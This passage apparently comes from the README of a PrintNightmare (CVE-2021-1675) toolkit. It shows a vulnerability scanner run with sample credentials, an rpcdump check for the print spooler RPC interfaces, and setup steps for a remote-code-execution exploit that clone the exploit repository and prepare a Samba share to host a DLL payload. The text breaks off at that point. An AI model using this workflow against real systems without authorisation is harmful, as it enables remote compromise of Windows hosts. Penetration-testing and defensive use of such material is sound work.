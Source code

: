 ```bash
$ sudo docker run -it itwasalladream -u johndo -p Welkom1234 -d domain 10.10.10.10
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-PAR. Reason: Print Spooler service is not running or inbound remote printing is disabled.
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-RPRN. Reason: Print Spooler service is not running or inbound remote printing is disabled.
```

## Scanner Example (Poetry)

```bash
itwasalladream -u johndo -p Welkom1234 -d domain 10.10.10.10
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-PAR. Reason: Print Spooler service is not running or inbound remote printing is disabled.
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-RPRN. Reason: Print Spooler service is not running or inbound remote printing is disabled.
```

## RPC Dump

If you can reach these RPC interfaces, you may be able to use PrintNightmare.

```bash
rpcdump.py @ip | egrep 'MS-RPRN|MS-PAR'
```

## Setup tool for remote RCE (cube0x0)

Ensure you have an impacket version that has [this PR](https://github.com/SecureAuthCorp/impacket/pull/1109) merged.

```bash
mkdir printnightmare
cd printnightmare
mkdir payloads
git clone https://github.com/justin-p/CVE-2021-1675
```

Then if you are lazy just use the [Taskfile](https://taskfile.dev/#/) included in the repo.

```bash
task payload_folder
task printnightmare_samba_share
```

To restore the smb.conf and stop the service run:

```bash
task restore_samba
```

Otherwise use the steps below

### Host DLL

Make a backup of your smb.conf
